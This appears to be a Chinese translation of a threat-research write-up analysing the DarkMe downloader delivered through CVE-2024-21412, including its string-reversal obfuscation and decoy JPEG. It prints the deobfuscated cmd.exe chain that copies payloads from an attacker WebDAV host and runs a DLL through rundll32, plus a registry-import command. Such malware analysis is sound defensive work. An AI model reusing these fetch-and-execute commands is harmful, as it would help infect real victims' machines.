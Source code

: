 ![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeBicOVStPniaGofWpiaYicOwBibkbWjWtRmvUIYICfuPy4M6KKclhfzfI2rP8bEuQdpXF8PN6Jza8rnpQ/640?wx_fmt=jpeg&from=appmsg "")  
  
图 15. 完成利用和感染链后向受害者显示的库存图图像 (JPEG)  
  
一旦利用和感染链完成，威胁参与者就会连接到其 C&C WebDAV 服务器以下载真实的 JPEG 文件，该文件与用于利用 CVE-2024-21412 的特洛伊木马 JPEG 文件同名。然后，该文件会显示给受害者，受害者会被欺骗，认为自己已经打开了原本打算从“下载”文件夹中查看的 JPEG 文件（对 DarkMe 感染一无所知）。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeBicOVStPniaGofWpiaYicOwBib4bw7vL45UzGWXeetBJyCzOw1vhovmMoJibSHhIicgoCALhdiaBaD0I9zQ/640?wx_fmt=png&from=appmsg "")  
  
DarkMe 下载器是一个用 Visual Basic 编写的 DLL，负责从攻击者的 WebDAV 下载并执行下一阶段的有效负载。该恶意软件通过cmd.exe命令解释器运行一系列命令来执行其操作。在恶意软件中，这些命令使用反向字符串技术进行加扰。要执行命令，它首先通过使用Strings.StrReverse方法将字符串顺序反转回正常来重建它们，然后通过shell方法执行它们。值得注意的是，该恶意软件加载了垃圾代码，以掩盖其真实目的并使逆向工程复杂化。为了研究和更容易理解，本博客条目中的所有代码片段都以去混淆、更清晰的形式呈现。  
  
  
以下代码片段说明了恶意软件如何执行上述操作：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeBicOVStPniaGofWpiaYicOwBibdWvS1hxRH1eJ8Cty4jv4GKAhS94Dmv6LbRgOBLvNuJxcR8Spfzjdxg/640?wx_fmt=jpeg&from=appmsg "")  
  
图 16. DarkMe 下载器使用的混淆命令  
  
反混淆后的命令行如下：  
```
cmd /c copy /b \\84[.]32[.]189[.]74@80\fxbulls\pictures\7z[.]dll %TEMP%\7z[.]dll&&cmd /c copy /b \\84[.]32[.]189[.]74@80\fxbulls\pictures\7z[.]exe %TEMP%\7z[.]exe&&cmd /c \\84[.]32[.]189[.]74@80\fxbulls\pictures\photo_2023-12-29s[.]jpg&&cmd /c copy /b \\84[.]32[.]189[.]74@80\fxbulls\pictures\My2[.]zip %TEMP%\My2[.]zip&&timeout 1&&cmd /c cd %TEMP%&&7z x "My2[.]zip" -password-1 -y&&timeout 1&&cmd /c rundll32 undersets[.]dll, RunDllEntryPointW&&timeout 1&&pause
```  
  
下表显示了执行的命令及其作用的说明：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeBicOVStPniaGofWpiaYicOwBibgC3iaDdjMPWUsXSxVZdIf7o8ar46evuwCD3xCdx0Z5dHbUaxicicQ7t4Q/640?wx_fmt=png&from=appmsg "")  
  
表 2. 脚本执行的命令  
  
  
如脚本的最后步骤所示，恶意软件通过rundll32从名为undersets.dll的 DLL执行RunDllEntryPointW导出函数。  
  
  
下图显示了My2.zip的内容：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taeBicOVStPniaGofWpiaYicOwBibxJuZtdro5j6VQeHRCEYCoWUiay8hrIiaub6aibVax31p8etrgpu1J2CrA/640?wx_fmt=jpeg&from=appmsg "")  
  
图 17. My2.zip 的内容  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeBicOVStPniaGofWpiaYicOwBibalAhMxicNaB0P2EuW9O27I1hicV76sfdRgx7DyoGdBHou3NYrNfa06yQ/640?wx_fmt=png&from=appmsg "")  
  
执行后，恶意软件通过将两个二进制文件（a1和a2）的内容合并到一个新文件C:\Users\admin\AppData\Roaming\OnlineProjects\OnlineProject.dll中来构建 DarkMe 有效负载。  
  
  
为了避免直接在二进制文件中暴露重要字符串，恶意软件以十六进制格式对它们进行编码。随后，它会根据需要在执行过程中将这些内容解码为 ASCII 表示形式。  
  
  
为了简化研究并增强可读性，所有垃圾代码已被删除，并将十六进制编码数据转换为 ASCII 格式。  
  
  
该恶意软件构建并执行以下命令，利用reg.exe实用程序从kb.txt文件导入注册表设置：  
```
"C:\Windows\System32\cmd.exe" /c cd C:\Users\admin\AppData\Roaming\OnlineProjects&&cmd /c timeout 1&&cmd /c reg.exe import kb.txt
```  
  